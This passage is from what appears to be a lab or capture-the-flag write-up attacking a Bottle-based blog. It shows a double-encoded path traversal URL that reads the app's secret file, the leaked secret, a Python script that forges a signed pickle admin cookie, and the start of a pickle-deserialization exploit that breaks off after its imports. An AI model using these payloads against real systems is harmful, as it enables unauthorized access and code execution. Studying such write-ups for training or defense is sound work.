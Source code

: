 
I also discovered the application's secret key used for cookie signing:
```
http://192.168.185.246:8080/view?page=%252e%252e%252f%252e%252e%252f/opt/bottle-blog/config/secret.py
```

This revealed:
```python
secret = "546546DSQ7711DSQDSQXWZ"
```

### Cookie Manipulation
I created a script to generate an admin cookie:
```python
import pickle
import base64
import hmac
import hashlib

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_admin_cookie(secret):
    session = {"name": "admin"}
    d = pickle.dumps([name, session], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    return touni(tob('!') + sig + tob('?') + encoded)

cookie = create_admin_cookie("546546DSQ7711DSQDSQXWZ")
print(cookie)
```

This generated: `!tha0+wxAFQXZDPeyKFIBuw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg==`

However, accessing the application with this admin cookie did not provide any additional privileges.

## Exploitation

### Python Pickle Deserialization Vulnerability
After further research, I discovered that the Bottle framework's cookie handling was vulnerable to Python Pickle deserialization attacks when using signed cookies.

I created an exploit script to leverage this vulnerability:
```python
import rich
from rich import print
from rich.console import Console
import os
import hmac
import hashlib
import base64
import pickle
import requests

def tob(s, enc='utf8'):
    if isinstance(s, str):
```